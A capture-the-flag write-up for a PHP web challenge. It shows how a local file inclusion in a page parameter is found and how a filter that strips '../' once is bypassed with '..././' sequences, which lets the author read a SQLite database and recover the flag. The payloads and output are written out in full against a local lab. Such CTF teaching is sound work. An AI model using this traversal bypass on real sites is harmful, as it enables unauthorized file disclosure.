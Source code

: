 # cyberhack factory  🏭

> web

Author: [whitex](https://github.com/najeh-halawani)

We make good cheeses, some smell, some don't, in all cases they're good.

## Writeup

### Recon

Visit the website and inspect the page and them source code.

It looks like it includes _php_ file. This means that we might be able to exploit a  [LFI](https://en.wikipedia.org/wiki/File_inclusion_vulnerability) (local file inclusion).

```
/?page=home.php
/?page=about.php
/?page=contact.php
```

Also after each "cheese" HTML block there is the comment `<!-- secret: 0 -->`. There might be a _secret_ cheese or something like that.

Let's check if there is a `/robots.txt`. Yes there is one.

```
User-agent: *
Disallow: /README.md
Disallow: /LICENSE
```

Visit `/README.md`.

```
# The Cheese Factory

Very easy to setup the website. The cheeses are stored in an SQLite database.

## Requirements

- PHP

## Config

The entry point of the website is `./index.php`.

Modify config values in `./application/config/config.php`.

- error reporting level
- database path
- pages
- default page
- security
- etc.


### Current config recap

<!-- Too lazy to write proper sentences, just pasted the current config -->

$config = array();

// Environment
// $config['environment'] = 'production';
$config['environment'] = 'development';

// Security
$config['secure'] = true;

// Error reporting.
if ($config['environment'] === 'production') {
	ini_set('display_errors', 0);
	error_reporting(E_ALL & ~E_NOTICE & ~E_DEPRECATED & ~E_STRICT & ~E_USER_NOTICE & ~E_USER_DEPRECATED);
}


// Database.
$config['database-path'] = dirname(__FILE__) . '/../database/cyberhack-factory.db';
$config['db'] = new SQLite3($config['database-path']);

// Pages
$config['pages'] = array('home.php', 'about.php', 'contact.php');
$config['default-page'] = $config['pages'][0];
```

There is a lot of information here.

First it gives the location of some sensible files:

- entry `index.php`
- config `application/config/config.php`
- database `application/database/cyberhack-factory.db`

We also know there is `$config['secure']` enabled.

Finally the error reporting is not disabled.

Let's finish our recon and visit `/LICENSE`.

```
No LICENSE
```

Ok nothing interesting here.


### Exploitation

Now it's time to try exploit the possible LFI.

Let's try to break the `page` system and display an error message.

http://localhost:12080/?page=foobar

```
<!-- ... -->
Warning: include(./application/views/foobar): failed to open stream: No such file or directory in /var/www/html/index.php on line 73

Warning: include(): Failed opening './application/views/foobar' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 73
<!-- ... -->
```

It looks like it tries to [include](http://php.net/manual/en/function.include.php) the file given by the param `page` in the directory `application/views`.

Let's try to include the `LICENSE` file.

http://localhost:12080/?page=../../LICENSE

```
<!-- ... -->
Warning: include(./application/views/LICENSE): failed to open stream: No such file or directory in /var/www/html/index.php on line 73

Warning: include(): Failed opening './application/views/LICENSE' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 73
<!-- ... -->
```

what the heck? It looks like it striped the `../../`.

Let's try with specifying the current directory.

http://localhost:12080/?page=./../../LICENSE

```
<!-- ... -->
Warning: include(./application/views/./LICENSE): failed to open stream: No such file or directory in /var/www/html/index.php on line 73

Warning: include(): Failed opening './application/views/./LICENSE' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 73
<!-- ... -->
```

It looks like it only stripped the `../` from the `page` param.

Let's try to isolate the behaviour.

http://localhost:12080/?page=foo/../bar

```
<!-- ... -->
Warning: include(./application/views/foo/bar): failed to open stream: No such file or directory in /var/www/html/index.php on line 73

Warning: include(): Failed opening './application/views/foo/bar' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 73
<!-- ... -->
```

Ok it seem to only replace the `../`.

It we want to bypass this system we need to create a `page` params that we equals to `../../LICENSE` after we would remove all `../` from it.

To do it we can insert `../` between each `../`.


1. `../../LICENSE`
2. `..././../LICENSE` (insert `../` at index 1)
3. `..././..././LICENSE` (insert `../` at index 7)

http://localhost:12080/?page=..././..././LICENSE


```
<!-- ... -->
No LICENSE
<!-- ... -->
```

Yeah!

Now let's read the content of the database.

http://localhost:12080/?page=..././..././application/database/cyberhack-factory.db

```
<!-- ... --->
SQLite format 3@  .Y
����P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)�A�YtablecheesescheesesCREATE TABLE cheeses (
id INTEGER PRIMARY KEY AUTOINCREMENT,
name TEXT NOT NULL UNIQUE,
description TEXT NOT NULL,
image TEXT NOT NULL,
secret TINYINT NOT NULL
)-Aindexsqlite_autoindex_cheeses_1cheeses

9�
�t
9�d'�U�c	Secret CheeseThe most delicious cheese. Made with the secret ingredient cyberhack{local_file_inclusion_tastes_so_good}.https://upload.wikimedia.org/wikipedia/commons/thumb/c/c5/Red_flag_waving.svg/249px-Red_flag_waving.svg.png�Q�7�kGoudaGouda is a mild, yellow cheese made from cow's milk. It is one of the most popular cheeses worldwide. The name is used today as a general term for numerous similar cheeses produced in the traditional Dutch manner.https://upload.wikimedia.org/wikipedia/commons/thumb/f/fb/Smoked_gouda_cheese.jpg/800px-Smoked_gouda_cheese.jpg�:!�C�'MozzarellaMozzarella is a traditionally southern Italian cheese made from Italian buffalo's milk by the pasta filata method. Mozzarella received a Traditional Specialities Guaranteed certification from the European Union in 1998.https://upload.wikimedia.org/wikipedia/commons/5/57/Mozzarella_di_bufala3.jpg�|�G�)CamembertCamembert is a moist, soft, creamy, surface-ripened cow's milk cheese. It was first made in the late 18th century at Camembert, Normandy, in northern France.https://upload.wikimedia.org/wikipedia/commons/4/4d/Camembert_%28Cheese%29.jpg�M�U�=RoquefortRoquefort is a sheep milk cheese from the south of France, and together with Bleu d'Auvergne, Stilton, and Gorgonzola is one of the world's best known blue cheeses.https://upload.wikimedia.org/wikipedia/commons/thumb/b/bf/Wikicheese_-_Roquefort_-_20150417_-_003.jpg/1920px-Wikicheese_-_Roquefort_-_20150417_-_003.jpg
������'Secret Cheese	Gouda!Mozzarella
Camembert	Roquefort
��cheeses
<!-- ... --->
```

Even if we can't recreate the database from this, the content is still readable.

```
cyberhack{local_file_inclusion_tastes_so_good}
```

🚩

